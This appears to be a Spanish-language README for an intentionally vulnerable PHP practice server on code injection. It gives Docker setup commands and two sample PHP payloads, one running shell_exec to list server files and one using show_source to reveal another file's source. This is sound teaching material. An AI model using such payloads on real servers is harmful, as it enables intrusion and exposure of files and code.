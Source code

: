 # Code Injection

Descargar y Montar el servidor desde Docker:

```bash
docker pull ghcr.io/ingenieroricardo/codeinjection:latest
docker run --publish 8080:80 ghcr.io/ingenieroricardo/codeinjection:latest
```

Descargar y Montar el servidor desde Docker usando un volumen con el Codigo Fuente de Github para editarlo:

```bash
git clone https://github.com/IngenieroRicardo/CodeInjection
docker pull ghcr.io/ingenieroricardo/codeinjection:latest
docker run --publish 8080:80 -v ./CodeInjection:/var/www/html ghcr.io/ingenieroricardo/codeinjection:latest
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
<?php
  show_source("../archivos.php");
?>
```
Con este codigo podemos ver codigo fuente
